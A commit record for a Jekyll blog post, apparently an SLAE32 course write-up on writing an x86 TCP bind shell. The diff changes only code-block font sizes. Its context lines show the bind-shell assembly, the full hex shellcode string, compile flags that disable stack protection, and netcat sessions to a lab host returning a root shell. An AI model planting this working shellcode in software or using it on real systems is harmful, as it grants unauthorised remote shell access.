

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md, in a window 1280 px wide and 900 px high, scrolled down 2088 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
SLAE32 - Assignment #1

```diff
--- a/_posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md
+++ b/_posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md
@@ -72,7 +72,7 @@
 In order to convert the above code into x86 assembly, there is a need to investigate the&nbsp; system calls being used. Specifically, the following&nbsp; system calls are used :
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 bind()
 listen()
 accept()
@@ -93,7 +93,7 @@
 The steps above providing a footprint to further build the bind shellcode. Furthermore, the different numbers assigned to each socket system calls must be searched in order to use them in each step. The following image shows the numbers used for the needed socket system calls
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/linux/net.h | grep SYS
 #define SYS_SOCKET 1 /* sys_socket(2) */
 #define SYS_BIND 2 /* sys_bind(2) */
@@ -122,7 +122,7 @@
 There are several types of sockets, although stream sockets and datagram sockets are the most commonly used. The types of sockets are also defined for example in Ubuntu 12.04 inside the file /usr/include/i386-linux-gnu/bits/socket.h .The following output shows the assigned values at the stream and datagram sockets accordingly
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/i386-linux-gnu/bits/socket.h | grep SOCK_
 SOCK_STREAM = 1, /* Sequenced, reliable, connection-based
 #define SOCK_STREAM SOCK_STREAM
@@ -148,7 +148,7 @@
 Proceeding further, it is time to create the <b>bind.nasm</b> file. Before starting to write the <b>bind</b> shell in assembly, the registers <b>eax</b> , <b>ebx, edi</b> and <b>edx</b> will be zeroed out
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 global _start
 section .text
 _start:
@@ -171,7 +171,7 @@
 The <b>call</b> argument determines which <b>socket</b> function to invoke. The <b>args</b> points to a block containing the actual arguments, which are passed through to the appropriate call. In this case, the <b>socketcall</b> system call identifier will be determined first and afterwards the <b>socket</b> system calls ( SYS_SOCKET, SYS_BIND, SYS_LISTEN, SYS_ACCEPT ) will be called through the <b>call</b> instruction in assembly.
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socketcall
 #define __NR_socketcall 102
 </pre>
@@ -197,7 +197,7 @@
 
 ### socket:
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 mov al, 0x66 ; call SocketCall() in order to use the SYS_SOCKET argument
 mov bl, 0x1  ; define the SYS_SOCKET value to be 0x1. The value can be stored at bl in order to avoid null values
 
@@ -231,7 +231,7 @@
 
 ### Bind:
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 mov al, 0x66     ; call SocketCall() in order to use the SYS_BIND argument
 inc bl           ; increase the ebx from 0x1 to 0x2 which indicates the bind() syscall
 
@@ -274,7 +274,7 @@
 
 the following output shows the output of the script above used with the port number **1234**.
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># python nport.py 1234
 Port in hex Network Byte order: 0xd204
 </pre>
@@ -294,7 +294,7 @@
 
 ### Listen:
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 ;;listen(sockfd, 0);
 push edx      ; push 0 into the stack
 push edi      ; push sockfd descriptor
@@ -330,7 +330,7 @@
 
 ### Accept:
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 ;;accept(sockfd, NULL, NULL);
 mov al, 0x66     ; call SocketCall() in order to use the SYS_ACCEPT argument
 inc bl           ; increase the ebx from 0x4 to 0x5
@@ -356,7 +356,7 @@
 
 ### Dup2 :&nbsp;
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 ;;dup2(resfd, 2);
 ;;dup2(resfd, 1);
 ;;dup2(resfd, 0);
@@ -389,7 +389,7 @@
 
 ### Execve
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 ;; execve("/bin/sh", NULL, NULL);
 xor eax, eax    ; zero out the eax register
 push eax        ; push NULL into the stack
@@ -411,14 +411,14 @@
 
 Then, the following commands will be used in order to compile and link the code.
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
   <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># nasm -f elf32 -o bind.o bind.nasm
   <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># ld -z execstack -o bind bind.o
 </pre>
 
 Furthermore, the bind program runs as follows
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># ./bind
 </pre>
 
@@ -427,14 +427,14 @@
 Then from <b>netstat</b> tool can be seen that the target machine listens to port <b>1234</b> and waits for an incoming connection.
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># netstat -antp | grep 1234
 tcp 0 0 0.0.0.0:1234 0.0.0.0:* LISTEN 1193/./bind
 </pre>
 
 Now if we use **netcat** we will be able to connect to the target machine at port **1234** as seen below
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">~ nc -vvv 192.168.200.13 1234
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">~ nc -vvv 192.168.200.13 1234
   Connection to 192.168.200.13 port 1234 [tcp/search-agent] succeeded!
   whoami root
   netstat -antp | grep 1234
@@ -444,7 +444,7 @@
 
 Furthermore, the shellcode will be created using the following command
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># objdump -d ./bind|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' "\x31\xc0\x31\xdb\x31\xd2\x31\xf6\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x52\x56\x89\xe1\x83\xc3\x02\xb0\x66\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
 </pre>
 
@@ -495,13 +495,13 @@
 
 the following command will be used to compile the program above
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># gcc -fno-stack-protector -z execstack -o bindshell bindshell.c
 </pre>
 
 Furthermore, as seen below when the **bindshell** program runs the target machine opens up a communication port or a listener on the target machine and waits for an incoming connection.
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span>#./bindshell 2222
 [!] Length: 104
 </pre>
@@ -510,7 +510,7 @@
 If we run **netstat** we will see that the port **2222** is open and waiting for connections
 
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># netstat -antp | grep 2222
 tcp 0 0 0.0.0.0:<span style="color:red;">2222</span> 0.0.0.0:* LISTEN 1015/./bindshell
 </pre>
@@ -518,7 +518,7 @@
 
 Now if we use **netcat** we will be able to connect to the target machine at port **2222** as seen below
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">~ nc -vvv 192.168.200.13 2222
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">~ nc -vvv 192.168.200.13 2222
   Connection to 192.168.200.13 port 2222 [tcp/search-agent] succeeded!
   whoami root
   netstat -antp | grep 2222
```
